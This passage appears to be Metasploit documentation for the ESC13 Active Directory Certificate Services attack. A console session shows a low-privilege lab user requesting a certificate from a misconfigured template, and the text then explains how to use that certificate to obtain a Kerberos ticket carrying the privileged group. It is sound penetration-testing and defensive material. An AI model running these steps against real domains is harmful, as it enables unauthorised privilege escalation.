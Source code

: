 In this case, the ticket can be issued with the `icpr_cert` module. No additional options are required to issue the
certificate beyond the standard `CA`, `CERT_TEMPLATE`, target and authentication options.

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain COLLALABS1
SMBDomain => COLLALABS1
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA collalabs1-SRV-ADDS01-CA
CA => collalabs1-SRV-ADDS01-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC13-Test
CERT_TEMPLATE => ESC13-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate Email: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3474343397-3755413101-2031708755-10051
[*] 172.30.239.85:445 - Certificate UPN: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20240226170310_default_172.30.239.85_windows.ad.cs_917878.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) with the `ESC13-Group`
RID present in the Groups field of the TGT PAC.

# Authenticating With A Certificate
Metasploit supports authenticating with certificates in a couple of different ways. These techniques can be used to take
further actions once a certificate has been issued for a particular identity (such as a Domain Admin user).

## Authenticating To Kerberos
Certificates can be used to authenticate to Kerberos using the [[kerberos/get_ticket|kerberos/get_ticket.md]] module by
specifying the `CERT_FILE` option. Take the certificate file from the last stage of the attack and set it as the
`CERT_FILE`. Certificates from Metasploit do not require a password, but if the certificate was generated from a source
that added one, it can be specified in the `CERT_PASSWORD` option. Set the `RHOST` to the Domain Controller which is the
Key Distribution Center (KDC) for the Active Directory environment.
